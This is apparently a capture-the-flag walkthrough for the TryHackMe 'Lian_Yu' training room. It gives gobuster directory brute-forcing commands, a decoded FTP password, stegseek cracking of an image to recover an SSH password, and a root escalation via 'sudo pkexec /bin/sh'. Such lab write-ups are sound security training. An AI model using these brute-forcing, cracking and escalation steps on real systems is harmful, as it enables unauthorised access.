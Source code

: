 ```yaml
---
title: Walkthrough - Lian_Yu
published: true
---
```


Welcome to Lian_YU, this Arrowverse themed beginner CTF box!

Challenge/Gobuster/Steganography/Priv-Esc

[https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

* * *

## What is the Web Directory you found?

- ``gobuster dir -u http://10.10.251.212/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php -t 100 --no-error``

* * *

## what is the file name you found?

- Looking at the source code of ``/island/2100/`` give us a posslbe clue... ``you can avail your .ticket here but how?``
- we also have another clue ``vigilante`` from ``view-source:http://10.10.251.212/island/``
- running ``gobuster dir -u http://10.10.251.212/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket -t 100 --no-error`` can find ``/green_arrow.ticket``

```shell
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
```

* * *

## what is the FTP Password?

- decode from base58 to get the password ``!#th3h00d`` which we can then login to ftp with username ``vigilante``

* * *

## what is the file name with SSH password?

- login to ftp with the credentials and ``mget *``
- ``stegseek aa.jpg /usr/share/wordlists/rockyou.txt``
- ``7z x aa.jpg.out``
- ``cat shado`` we get ``M3tahuman``
- ``cd ..`` in the ftp we get another user ``slade`` that we should be able to login to ssh with.

* * *

## user.txt

- ``cat user.txt``

* * *

## root.txt

```shell
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

- ``sudo pkexec /bin/sh``
- ``cat /root/root.txt``



* * * 
